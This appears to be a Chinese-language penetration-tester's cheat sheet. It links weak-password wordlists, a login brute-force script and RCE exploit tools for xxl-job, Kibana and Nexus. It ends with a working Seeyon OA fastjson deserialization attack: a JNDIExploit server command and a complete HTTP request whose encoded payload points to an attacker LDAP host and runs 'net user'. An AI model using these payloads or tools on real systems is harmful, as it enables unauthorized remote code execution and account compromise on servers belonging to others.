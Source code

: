 
<a name="d5BK8"></a>
## 弱口令字典
[https://github.com/huyuanzhi2/keyboard_type_passwords](https://github.com/huyuanzhi2/keyboard_type_passwords)  键盘组合口令<br />[https://github.com/fuzz-security/SuperWordlist](https://github.com/fuzz-security/SuperWordlist) 还不错<br />[https://github.com/TheKingOfDuck/fuzzDicts](https://github.com/TheKingOfDuck/fuzzDicts) 接口字段

[https://github.com/yzddmr6/WebCrack](https://github.com/yzddmr6/WebCrack)  貌似是前端登陆爆破的工具脚本

<a name="bZiV2"></a>
## xxl-job 未授权rce
[https://github.com/mrknow001/xxl-job-rce](https://github.com/mrknow001/xxl-job-rce)

<a name="q4gVF"></a>
## kibana-RCE <6.6.0 未授权远程代码
[https://github.com/jas502n/kibana-RCE](https://github.com/jas502n/kibana-RCE)

<a name="D1Egd"></a>
## Nexus
[https://blog.csdn.net/MoCoCN/article/details/110533683](https://blog.csdn.net/MoCoCN/article/details/110533683)<br />[https://github.com/zhzyker/CVE-2020-10199_POC-EXP](https://github.com/zhzyker/CVE-2020-10199_POC-EXP)<br />[https://github.com/magicming200/CVE-2019-7238_Nexus_RCE_Tool](https://github.com/magicming200/CVE-2019-7238_Nexus_RCE_Tool)

<a name="CO13I"></a>
## 致远 fastjson
 /seeyon/sursenServlet

使用工具<br /> java -jar JNDIExploit-1.2-SNAPSHOT.jar -p 7743 -i xx.xx.xx.xx
```go
POST /seeyon/sursenServlet HTTP/1.1
Host: 127.0.0.1:81
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
Connection: close
Upgrade-Insecure-Requests: 1
Content-Type: application/x-www-form-urlencoded
cmd: net user
Content-Length: 713

sursenData=%7B%22name%22%3A%7B%22%5Cu0040%5Cu0074%5Cu0079%5Cu0070%5Cu0065%22%3A%22%5Cu006a%5Cu0061%5Cu0076%5Cu0061%5Cu002e%5Cu006c%5Cu0061%5Cu006e%5Cu0067%5Cu002e%5Cu0043%5Cu006c%5Cu0061%5Cu0073%5Cu0073%22%2C%22%5Cu0076%5Cu0061%5Cu006c%22%3A%22%5Cu0063%5Cu006f%5Cu006d%5Cu002e%5Cu0073%5Cu0075%5Cu006e%5Cu002e%5Cu0072%5Cu006f%5Cu0077%5Cu0073%5Cu0065%5Cu0074%5Cu002e%5Cu004a%5Cu0064%5Cu0062%5Cu0063%5Cu0052%5Cu006f%5Cu0077%5Cu0053%5Cu0065%5Cu0074%5Cu0049%5Cu006d%5Cu0070%5Cu006c%22%7D%2C%22x%22%3A%7B%22%5Cu0040%5Cu0074%5Cu0079%5Cu0070%5Cu0065%22%3A%22%5Cu0063%5Cu006f%5Cu006d%5Cu002e%5Cu0073%5Cu0075%5Cu006e%5Cu002e%5Cu0072%5Cu006f%5Cu0077%5Cu0073%5Cu0065%5Cu0074%5Cu002e%5Cu004a%5Cu0064%5Cu0062%5Cu0063%5Cu0052%5Cu006f%5Cu0077%5Cu0053%5Cu0065%5Cu0074%5Cu0049%5Cu006d%5Cu0070%5Cu006c%22%2C%22%5Cu0064%5Cu0061%5Cu0074%5Cu0061%5Cu0053%5Cu006f%5Cu0075%5Cu0072%5Cu0063%5Cu0065%5Cu004e%5Cu0061%5Cu006d%5Cu0065":"ldap://xxxx","autoCommit":true}}
```
